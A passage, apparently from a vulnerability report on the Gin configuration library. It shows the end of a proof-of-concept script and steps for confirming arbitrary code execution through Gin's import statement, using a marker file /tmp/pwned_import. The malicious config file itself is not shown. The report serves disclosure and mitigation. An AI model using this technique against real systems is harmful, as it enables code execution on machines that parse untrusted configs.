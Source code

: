     try:
        gin.parse_config_file('malicious_config.gin')
        print("Gin config parsed successfully (potentially exploited). Check for /tmp/pwned_import.")
    except Exception as e:
        print(f"Gin config parsing failed (exploit likely prevented): {e}")

    import os
    if os.path.exists('/tmp/pwned_import'):
        print("/tmp/pwned_import exists! Vulnerability confirmed: Arbitrary code execution via import.")
    else:
        print("/tmp/pwned_import does not exist. Vulnerability likely NOT exploited (but needs further investigation).")
    ```
    4. Run the test script: `python test_exploit_import.py`
    5. Observe the output. If the `/tmp/pwned_import` file is created, and "Vulnerability confirmed: Arbitrary code execution via import." is printed, the vulnerability is successfully demonstrated.

This vulnerability, similar to the macro and value injection vulnerabilities, poses a critical security risk and requires immediate and thorough mitigation. Disabling or strictly controlling the `import` statement in Gin configuration files is essential to prevent this attack vector.